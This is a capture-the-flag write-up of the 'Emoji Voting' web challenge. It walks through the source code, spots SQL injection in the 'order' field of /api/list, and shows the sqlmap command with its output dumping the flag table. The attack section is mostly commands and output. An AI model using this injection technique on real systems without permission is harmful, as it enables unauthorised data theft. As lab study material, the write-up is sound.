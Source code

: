 # Emoji Voting
![[Pasted image 20210423104326.png]]
## Code analysis
Looking through the source code given we see a database is set up with our flag contained in it. This leads me to believe we will have to do some sort of sql injection.

```sql
...snip...
    async migrate() {  
        let rand = crypto.randomBytes(5).toString('hex');           
                                                                    
        return this.db.exec(`           
            DROP TABLE IF EXISTS emojis;               
            DROP TABLE IF EXISTS flag_${ rand };
                                                                                                                                        
            CREATE TABLE IF NOT EXISTS flag_${ rand } (
                flag TEXT NOT NULL
            );            
                                                                    
            INSERT INTO flag_${ rand } (flag) VALUES ('CHTB{f4k3_fl4g_f0r_t3st1ng}')
...snip...
```

Looking at our main.js file, we notice there are two request that can be made. One through the list api and the other through the vote api.

```js
...snip...
const getEmojis = () => {
        fetch('/api/list', {
        method: 'POST',
        body: JSON.stringify({
            order: 'count DESC'
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
        .then(res => res.json())
        .then(data => {
                emojis.innerHTML = '';
                data.forEach(emoji => {
                        addEmoji(emoji);
                });
        })
};

const vote = (id) => {
    fetch('/api/vote', {
        method: 'POST',
        body: JSON.stringify({
            id: id
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
    .then(res => {
        if (res.ok) {
            update();
...snip...
```
## Exploitation
Knowing that it  is possibly SQLi, and there are two APIs in play, I decided to run sqlmap on both of these. I ended up getting succesful injection on the list api as shown and retrieved the flag.

```bash
 $sqlmap -u http://206.189.121.131:31286/api/list --headers "Content-Type: Application/json" --data '{"order":"count DESC"}' --level 5 --risk 3 -p order --batch --os='linux' --dbms='SQLite'  --random-agent --time-sec=1 -D SQLite_masterdb -T flag --search
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
*
...snip...
[11:41:35] [INFO] fetching entries for table 'flag_5e3a2f9b8b'
[11:41:35] [INFO] fetching number of entries for table 'flag_5e3a2f9b8b' in database 'SQLite_masterdb'
[11:41:35] [INFO] retrieved: 1
[11:41:39] [INFO] retrieved: CHTB{order_me_this_juicy_info}
Database: <current>
Table: flag_5e3a2f9b8b
[1 entry]
+--------------------------------+
| flag                           |
+--------------------------------+
| CHTB{order_me_this_juicy_info} |
+--------------------------------+

...snip...
```

